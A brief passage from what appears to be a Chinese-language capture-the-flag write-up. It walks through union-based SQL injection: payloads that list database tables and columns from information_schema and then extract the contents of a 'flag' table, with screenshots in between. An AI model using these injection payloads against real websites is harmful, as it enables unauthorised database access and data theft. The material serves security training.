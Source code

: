 爆表:`666' union select group_concat(table_name)from information_schema.tables where table_schema=database()#
`
![upload successful](./images/pasted-502.png)

爆字段:`666' union select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='flag'#`

![upload successful](./images/pasted-503.png)
最后使用：`1' union select group_concat(flag) from flag#`
